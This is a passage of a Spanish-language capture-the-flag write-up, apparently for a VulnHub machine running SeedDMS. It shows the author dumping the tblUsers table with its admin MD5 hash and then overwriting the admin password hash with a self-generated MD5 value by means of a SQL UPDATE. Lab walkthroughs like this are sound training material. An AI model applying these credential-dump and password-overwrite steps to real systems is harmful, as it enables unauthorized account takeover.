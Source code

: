 Tratamos de loguearnos en el panel de login de `SeedDMS` pero no tenemos éxito. Seguimos enumerando tablas y localizamos otra interesante `tblUsers`. Listamos su contenido y conseguimos más credenciales en `md5`

```bash
MySQL [seeddms]> select id,login,pwd from tblUsers;
+----+-------+----------------------------------+
| id | login | pwd                              |
+----+-------+----------------------------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a |
|  2 | guest | NULL                             |
+----+-------+----------------------------------+
2 rows in set (0,001 sec)
```

Si tratamos de loguearnos con las nuevas credenciales seguimos sin tener éxito. Generamos nuestra propia password en md5 y actualizamos la password de admin en la base de datos

```bash
❯ echo -n "pass123" | md5sum
32250170a0dca92d53ec9624f336ca24
```

```bash
MySQL [seeddms]> select id,login,pwd from tblUsers;
+----+-------+----------------------------------+
| id | login | pwd                              |
+----+-------+----------------------------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a |
|  2 | guest | NULL                             |
+----+-------+----------------------------------+
2 rows in set (0,001 sec)

MySQL [seeddms]> update tblUsers set pwd='32250170a0dca92d53ec9624f336ca24' where login='admin';
Query OK, 1 row affected (0,003 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

<img src="/assets/VH/HackMePlease/adminpanel.png">
